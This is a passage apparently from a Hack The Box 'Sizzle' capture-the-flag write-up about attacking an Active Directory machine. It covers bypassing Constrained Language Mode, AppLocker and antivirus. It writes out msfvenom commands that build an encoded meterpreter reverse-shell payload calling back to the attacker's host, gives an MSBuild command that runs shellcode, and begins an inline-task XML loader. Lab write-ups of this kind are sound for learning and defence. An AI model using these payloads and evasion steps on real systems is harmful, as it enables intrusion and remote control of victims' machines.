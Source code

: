 <br> Since this was an Active Directory environment I wanted to do kerberoasting, but `Invoke-Kerberoast.ps1` needed Full Language Mode, I couldn't use `GetUserSPNs.py` because the services were internal only. And my attempts to evade the antivirus failed. I could bypass the constrained language mode with [PSByPassCLM](https://github.com/padovah4ck/PSByPassCLM) and still couldn't use `Invoke-Kerberoast.ps1`. AppLocker is easy to [bypass](https://github.com/api0cradle/UltimateAppLockerByPassList) so it wasn't an issue. But I had to bypass the antivirus. 
<br>
<hr>
## Bypassing AV
<br> I found [this article](https://blog.conscioushacker.io/index.php/2017/11/17/application-whitelisting-bypass-msbuild-exe/) and this [POC](https://github.com/3gstudent/msbuild-inline-task/blob/master/executes%20shellcode.xml)
<br> First time I created the payload like this :
`msfvenom -a x86 –platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.xx.xx LPORT=1339 -f csharp`
<br> And I added the shellcode to the POC and applied the exploit :
`C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe c:\windows\system32\spool\drivers\color\shellcode.xml`
![](/images/hackthebox/sizzle/35.png)
<br> The antivirus detected it. I added an encoder and 100 iterations and tried again :
`msfvenom -a x86 –platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.xx.xx LPORT=1339 -e x86/shikata_ga_nai -i 100 -f csharp`
![](/images/hackthebox/sizzle/36.png)
<br> Then I added the shellcode to `shellcode.xml`
<br> `shellcode.xml` :
```
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <!-- This inline task executes shellcode. -->
  <!-- C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe SimpleTasks.csproj -->
  <!-- Save This File And Execute The Above Command -->
  <!-- Author: Casey Smith, Twitter: @subTee --> 
  <!-- License: BSD 3-Clause -->
  <Target Name="Hello">
    <ClassExample />
  </Target>
  <UsingTask
```
